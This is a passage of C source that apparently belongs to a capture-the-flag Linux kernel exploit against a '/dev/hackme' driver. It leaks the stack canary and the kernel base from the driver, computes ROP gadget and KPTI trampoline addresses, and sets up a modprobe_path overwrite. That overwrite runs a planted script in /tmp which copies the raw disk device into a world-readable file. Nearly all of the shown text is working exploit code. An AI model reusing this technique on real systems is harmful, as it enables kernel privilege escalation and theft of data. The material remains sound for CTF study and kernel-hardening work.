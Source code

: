 ```c
        ".att_syntax;"
    );
    info("status saved!",0);
}

void show( size_t buf[] , int len){
    for (int i =0;i<len;i++){
        printf("0x%-4x -> 0x%lx\n" , i,buf[i]);
    }
}

void set_offset(){

    swapgs_restore_regs_and_return_to_usermode += vmlinux_base;
    kpti_trampoline = swapgs_restore_regs_and_return_to_usermode + 22;
    pop_rbx_r12_r13_rbp_ret += vmlinux_base;
    modprobe_path += vmlinux_base;
    write_rbx_rax_pop_rbx_rbp_ret += vmlinux_base;
    pop_rax_ret += vmlinux_base;

    info("vmlinux_base" , vmlinux_base);
    info("modprobe_path" , modprobe_path);
    info("pop_rax_ret" , pop_rax_ret);
    info("write_rbx_rax_pop_rbx_rbp_ret" , write_rbx_rax_pop_rbx_rbp_ret);
    info("kpti_trampoline" , kpti_trampoline);

}

void get_flag(){
    info("Write command" ,0);

    system("echo '#!/bin/sh\ncp /dev/sda /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    info("Run unknown file" , 0);

    system("/tmp/dummy");
    system("cat /tmp/flag");

    exit(0);
}

int main(){
    
    size_t buf[0x100] = {0};
    size_t rop[0x600] = {0};
    size_t canary ; 
    int length =  (0x80 + 0x18 + 0x100);
    int i = 0x10;

    save_status();

    int fd = open("/dev/hackme" , 2);

    read(fd , buf ,length);

    show(buf , length/8);
    canary = buf[i];
    vmlinux_base = buf[0x26] & 0xFFFFFFFFFFFF0000;

    set_offset();
```